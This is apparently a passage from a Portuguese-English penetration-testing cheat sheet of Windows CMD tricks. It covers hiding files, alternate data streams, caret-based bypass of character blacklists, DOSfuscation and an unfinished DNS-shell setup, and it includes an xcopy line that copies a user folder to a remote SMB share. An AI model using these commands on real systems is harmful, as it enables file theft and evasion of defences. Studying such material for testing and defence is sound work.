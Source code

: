 ```bash
#Hide
attrib +h file #Set Hidden
attrib -h file #Quit Hidden

#Give full control over a file that you owns
icacls <FILE_PATH> /t /e /p <USERNAME>:F
icacls <FILE_PATH> /e /r <USERNAME> #Remove the permision

#Recursive copy to smb
xcopy /hievry C:\Users\security\.yawcam \\10.10.14.13\name\win

#exe2bat to transform exe file in bat file

#ADS
dir /r #Detect ADS
more file.txt:ads.txt #read ADS
powershell (Get-Content file.txt -Stream ads.txt)

# Get error messages from code
net helpmsg 32 #32 is the code in that case
```
### Bypass Char Blacklisting
```bash
echo %HOMEPATH:~6,-11%   #\
who^ami   #whoami
```
### DOSfuscation

Gera uma linha CMD ofuscada
```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
help
SET COMMAND type C:\Users\Administrator\Desktop\flag.txt
encoding
```
### ACLs de Endereço de Escuta

Você pode escutar em [http://+:80/Temporary_Listen_Addresses/](http://+/Temporary_Listen_Addresses/) sem ser administrador.
```bash
netsh http show urlacl
```
### Shell DNS manual

**Atacante** (Kali) deve usar uma dessas 2 opções:
```bash
sudo responder -I <iface> #Active
sudo tcpdump -i <iface> -A proto udp and dst port 53 and dst ip <KALI_IP> #Passive
```
#### Vítima
